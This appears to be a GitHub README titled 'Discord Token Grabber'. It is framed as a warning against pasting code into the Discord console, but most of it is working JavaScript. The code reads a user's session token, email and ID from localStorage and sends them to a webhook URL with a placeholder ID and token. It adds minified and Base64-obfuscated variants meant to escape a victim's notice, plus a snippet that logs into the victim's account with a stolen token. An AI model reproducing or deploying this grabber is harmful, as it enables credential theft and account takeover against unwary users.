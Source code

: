 # Discord Token Grabber
Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

In just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like this:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);

// This could also be compacted into one line
alert(`Your Discord token is:\n${document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1)}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this example:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    "content": token,
    "embeds": null
  })
});

// Once again, this could be minified
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1),"embeds":null})});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be susicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following script:
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", JSON.stringify({
  "content": null,
  "embeds": [{
    "title": "Successfully Grabbed Token!",
    "color": 2067276,
    "fields": [{
      "name": "User",
      "value": `<@!${localStorage.user_id_cache}>`,
      "inline": true
    }, {
      "name": "Email",
      "value": localStorage.email_cache,
      "inline": true
    }, {
      "name": "Token",
      "value": l.token.slice(1, -1).replaceAll("-", "-/n")
    }],
    "footer": {
      "text": "Hacker Pepe v0.0.0",
      "icon_url": "https://imgur.com/5Ri5eok.png"
    }
  }],
  "username": "Hacker Pepe",
  "avatar_url": "https://imgur.com/5Ri5eok.png"
}));
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical script *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.